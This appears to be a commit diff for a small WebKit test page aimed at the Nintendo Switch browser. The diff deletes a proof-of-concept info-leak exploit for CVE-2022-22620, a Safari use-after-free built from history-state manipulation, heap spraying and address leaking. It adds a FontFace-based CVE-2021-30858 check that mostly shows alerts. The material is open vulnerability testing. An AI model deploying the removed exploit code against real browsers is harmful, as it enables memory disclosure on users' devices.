

Before and after one commit to its-robyn-starre/switch-webkit, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-860 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,83 +1,64 @@
 <!DOCTYPE html>
 <html>
+    <title>CVE-2021-30858 Webkit Test</title>
+    <script>
 
-<script>
-x = [1.1];
+        async function testwebkit() {
+            try{
+            alert("Testing CVE-2021-30858 on Switch Browser.. Press OK to check bug API!!!");
+            let font = new FontFace('font1', 'url()',{});
+            alert("FontFace(). OK.");
+            var fontFaceSet = new FontFaceSet([font]);
+            alert("FontFaceSet(). OK.");
+            font.family = 'font2';
+            document.getElementById("test").innerHTML = "FontFace() API are available on Switch Browser";
+            alert("CVE-2021-30858 Webkit exploit bug.. FontFaceSet() and FontFace() API are available on Switch Browser :P!!");
+              }
+            catch(e){
+                alert(e.message);
+            }
+        }
 
+         async function testwebkit2() {
+            try{
+            alert("Testing CVE-2021-30858 on Switch Browser.. Rev3.\n If you receive 'there's no enought memory error msgs' means the Bug is patched.");
+            let font = new FontFace("font1", '', {},ConfirmWork1());
 
-var buffer      = new ArrayBuffer(8);
-var byteView    = new Uint8Array(buffer);
-var uint32View  = new Uint32Array(buffer);
-var float64View = new Float64Array(buffer);
+            var fontFaceSet = new FontFaceSet([font],ConfirmWork2());
 
+            font.family = "font2";
+            //do something after the font is loaded
+            NotWork();
+            alert("webkit exploit patched !");
+             }
+            catch(e){
+                alert(e.message);
+            }
+                  }
 
-function myfunc3(leaked,b,c,d,e,f,g,h,i,j,k,l)
-{
-alert(arguments);
-if( leaked!=x) {
+            function ConfirmWork1() {
 
-float64View[0] = leaked;
+            document.getElementById("test").innerHTML = "Proccess --> FaceFont()..BUG WORKING!!!";
 
-alert("Leaked object: 0x"+ (uint32View[1]|0x20000).toString(16)  + (uint32View[0]>>8).toString(16) );
+            }
 
-}
-alert(arguments);
-}
+            function ConfirmWork2() {
 
-function myfunc(a,b,c,d,e,f,g,h,i,j,k,l)
-{
-}
+            document.getElementById("test").innerHTML = "Proccess --> FaceFontSet()..BUG NO WORKING!!!";
 
+            }
 
+        function NotWork() {
 
-function test_poc_safari()
-    {
+            document.getElementById("test").innerHTML = "If you see this Msg means: BUG IS NOT WORKING OR PATCHED!!!";
+           }
 
-	window.addEventListener('popstate', (event) => {
+    </script>
 
-	event = null;
-	for(i=0; i<15750; i++) setTimeout(myfunc3,15000,x,0x61,2,3,4,5,6,7,8,9,10,11);
-	setInterval( ()=> { 	for(i=0; i<200750; i++) new ImageData(1,96/4); 	} , 1500);				// trigger PopStateEvent::~PopStateEvent and dec the refcount
-	});
+    <body>
+        <button onclick="testwebkit()">Test CVE Bug API On Switch FW</button>
+        <button onclick="testwebkit2()">Test Bug On 8.XX FW</button>
+        <p id="test">Bug Result Test...</p>
+    </body>
 
-
-                input = document.body.appendChild(document.createElement("input"));
-
-				foo = document.body.appendChild(document.createElement("a"));
-				foo.id = "foo";
-
-				for(i=0; i<1000; i++)	setTimeout(myfunc,0,0x61,0x61,0,4,5,6,7,8,9,10,11,12);
-
-				history.pushState("", "", location + "#foo");
-				for(i=0; i<1000; i++)	setTimeout(myfunc,0,0x61,0x61,0,4,5,6,7,8,9,10,11,12);
-				//Current state = state2
-
-				history.pushState("", "");
-
-				setTimeout(() => {
-
-						// Set the focus on the input element.
-						// During the call to back() the focus will change to the foo element
-						// and therefore triggering the blur event on the input element
-						input.focus();
-
-						input.onblur = () => {history.replaceState("", "");
-
-						 }
-						setTimeout(() => { history.back();   }, 500);		}, 500);
-
-
-        }
-     </script>
-    <head>
-     </head>
-     <body>
-        <h1>CVE-2022-22620: Use-after-free in Safari</h1>
-        <h1>info leak exploit: Tested on webkitgtk-2.34.3 (UBUNTU64) </h1>
-
-        <h1>Based on Google Project Zero <a href=https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-22620.html> POC</a></h1>
-        <center><button onclick="test_poc_safari();"> Test CVE-2022-22620 </button></center>
-     </body>
-
-
-   </html>
+</html>
```
